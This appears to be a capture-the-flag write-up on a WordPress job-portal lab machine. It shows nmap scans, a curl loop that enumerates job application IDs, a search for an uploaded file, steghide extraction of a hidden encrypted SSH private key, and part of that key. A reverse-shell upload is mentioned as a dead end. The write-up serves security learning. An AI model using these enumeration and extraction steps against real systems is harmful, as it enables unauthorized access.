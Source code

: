 # Enumeration

## Nmap

- Quick scan
```bash
sudo nmap --max-retries 0 -p- -oN nmap/quick_scan 10.10.10.10.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-15 03:25 EDT
Warning: 10.10.10.10 giving up on port because retransmission cap hit (0).
Stats: 0:00:57 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 30.61% done; ETC: 03:28 (0:02:09 remaining)
Stats: 0:00:58 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 30.79% done; ETC: 03:28 (0:02:08 remaining)
Nmap scan report for 10.10.10.10. (10.10.10.10)
Host is up (0.17s latency).
Not shown: 65533 filtered ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 147.64 seconds

```
- Custom Scripts and Version Enumeration
```bash
sudo nmap -sC -sV -oA nmap/targeted_scan -p 22,80 10.10.10.10.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-15 03:28 EDT
Nmap scan report for 10.10.10.10. (10.10.10.10)
Host is up (0.17s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 ec:f7:9d:38:0c:47:6f:f0:13:0f:b9:3b:d4:d6:e3:11 (RSA)
|   256 cc:fe:2d:e2:7f:ef:4d:41:ae:39:0e:91:ed:7e:9d:e7 (ECDSA)
|_  256 8d:b5:83:18:c0:7c:5d:3d:38:df:4b:e1:a4:82:8a:07 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-generator: WordPress 4.7.3
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Job Portal &#8211; Just another WordPress site
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 17.25 seconds

```
**Quick Glance**
- Running ubuntu
- Apache 2.4.18
- Wordpress Website

## Website
### The Rabbit Hole
- In Job Listings we can check check the pentester job where arbitrary file upload is allowed. We can upload a reverse shell and try to execute, but not taking .php files or GIF8a; prepended.

### Intended Method
- We can see that job listings is present in directory : 8.
- We can use curl to enumerate all the Directories from 1-20
```bash
for i in `seq 1 20`;
do
echo -n $i:; curl -s http://10.10.10.10/index.php/jobs/apply/$i/ | grep '<title>'
done

...[snip]...
11:<title>Job Application: cube &#8211; Job Portal</title>
12:<title>Job Application: Application &#8211; Job Portal</title>
13:<title>Job Application: HackerAccessGranted &#8211; Job Portal</title>
14:<title>Job Application: Application &#8211; Job Portal</title>
15:<title>Job Application: Application &#8211; Job Portal</title>
16:<title>Job Application: cmd &#8211; Job Portal</title>
...[snip]...
```
- We can see there is a file called HackerAccessGranted.
- All files are stored in http://\<website\>/\<wordpress\>/wp-content/uploads/\<year\>/\<month\>/\<filename\>
- I have written a python script to enumerate sequentially.
```bash
python3 exploit.py 
[*] Trying: http://10.10.10.10/wp-content/uploads/2017/04/HackerAccessGranted.jpg
[+] Found: http://10.10.10.10/wp-content/uploads/2017/04/HackerAccessGranted.jpg
[!] Done

```
- We can see that it is an image
![[Pasted image 20210415090612.png]]
- We can download it and run steghide against it.
```bash
steghide extract -sf HackerAccessGranted.jpg
Enter passphrase: 
wrote extracted data to "id_rsa".

```
- Just press enter on password prompt for blank password.
- It is an encrypted RSA private key
```bash
cat id_rsa                                                                                  
-----BEGIN RSA PRIVATE KEY-----                                                                 
Proc-Type: 4,ENCRYPTED                                                                          
DEK-Info: AES-128-CBC,7265FC656C429769E4C1EEFC618E660C                                          
                                                                                                
/HXcUBOT3JhzblH7uF9Vh7faa76XHIdr/Ch0pDnJunjdmLS/laq1kulQ3/RF/Vax                                
tjTzj/V5hBEcL5GcHv3esrODlS0jhML53lAprkpawfbvwbR+XxFIJuz7zLfd/vDo                                
1KuGrCrRRsipkyae5KiqlC137bmWK9aE/4c5X2yfVTOEeODdW0rAoTzGufWtThZf                                
...[snip]...
```
